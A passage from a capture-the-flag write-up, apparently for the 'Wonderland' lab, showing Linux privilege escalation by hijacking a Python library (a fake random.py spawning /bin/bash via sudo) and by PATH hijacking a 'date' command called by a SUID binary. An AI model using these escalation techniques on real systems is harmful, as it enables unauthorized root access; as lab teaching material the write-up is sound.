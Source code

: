 This python code is randomly choose 10 lines and print them, but as you can see the code is importing the "random" lib, let's try to create our own one and execute the script with another account.

```
alice@wonderland:~$ cat random.py
#!/bin/bash

import os

os.system("/bin/bash")
```

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

![](https://imgur.com/skVItpo.png)

![](https://imgur.com/dvizfgC.png)

Nothing there let's see the source..

![](https://imgur.com/bb0eRMG.png)

```
The Mad Hatter will be here soon./bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely, and I will give you some tea while you wait for himSegmentation fault (core dumped)
```

Like the previous one let's create our own date file and execute it.

```
rabbit@wonderland:/home/rabbit$ nano date
Unable to create directory /home/alice/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ ls -la
total 44
drwxr-x--- 2 rabbit rabbit  4096 Jun 11 14:41 .
drwxr-xr-x 6 root   root    4096 May 25 17:52 ..
lrwxrwxrwx 1 root   root       9 May 25 17:53 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25 03:01 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25 03:01 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25 03:01 .profile
-rwxr-xr-x 1 rabbit rabbit    10 Jun 11 14:41 date
-rwsr-sr-x 1 root   root   16816 May 25 17:58 teaParty
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ ./teaParty
```
